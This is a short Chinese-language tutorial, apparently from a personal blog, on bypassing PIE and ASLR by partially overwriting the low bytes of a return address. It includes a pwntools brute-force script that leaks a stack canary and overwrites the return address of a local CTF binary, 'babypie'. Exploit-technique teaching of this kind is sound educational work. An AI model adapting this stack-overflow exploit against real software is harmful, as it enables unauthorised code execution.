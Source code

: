 # 部分写固定思路


我们知道, 在开启了随机化（ASLR，PIE）后, 无论高位的地址如何变化，低 12 位的页内偏移始终是固定的, 也就是说如果我们能更改低位的偏移, 就可以在一定程度上控制程序的执行流, 绕过 PIE 保护。

正常情况我们不能写入12位，只能写入16位，因此我们只能猜测最后4位（一个16进制位）的数值，然后循环碰撞即可。

```python
while True:
    try:
        io = process("./babypie", timeout = 1)

        #  gdb.attach(io)
        io.sendafter(":\n", 'a' * (0x30 - 0x8 + 1))
        io.recvuntil('a' * (0x30 - 0x8 + 1))
        canary = '\0' + io.recvn(7)
        success(canary.encode('hex'))

        #  gdb.attach(io)
        io.sendafter(":\n", 'a' * (0x30 - 0x8) + canary + 'bbbbbbbb' + '\x3E\x0A')

        io.interactive()
    except Exception as e:
        io.close()
        print e
```

注意：`gets()`、`printf()`等字符串输入函数会在输入末尾加上`\x00`导致部分写失败。部分写只在`read()`上使用。



---

> 作者: alextang  
> URL: https://alextang.top/articles/2023/11/partial_overwrite/  

